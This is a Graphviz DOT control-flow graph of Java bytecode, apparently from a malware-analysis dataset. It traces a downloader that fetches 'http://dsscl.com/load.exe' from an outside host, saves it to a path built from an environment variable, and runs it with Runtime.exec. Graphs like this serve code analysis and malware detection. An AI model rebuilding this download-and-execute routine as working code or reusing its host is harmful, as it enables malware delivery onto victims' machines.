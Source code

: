 digraph "" {
"new java.lang.StringBuilder";
 "new java.lang.StringBuilder"->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
 "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
 "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
 "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.io.BufferedInputStream";
 "new java.io.BufferedInputStream"->"new java.net.URL";
 "new java.net.URL"->"push 'http://dsscl.com/load.exe'";
 "push 'http://dsscl.com/load.exe'"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
 "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
 "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
 "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.FileOutputStream";
 "new java.io.FileOutputStream"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
 "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
 "new java.io.BufferedOutputStream"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>";
 "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"->"goto load.r r0";
 "goto load.r r0"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[])>";
 "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
 "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
 "virtualinvoke <java.io.BufferedInputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
 "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
 "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"goto return";
 "goto return"->"return";
 "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
}
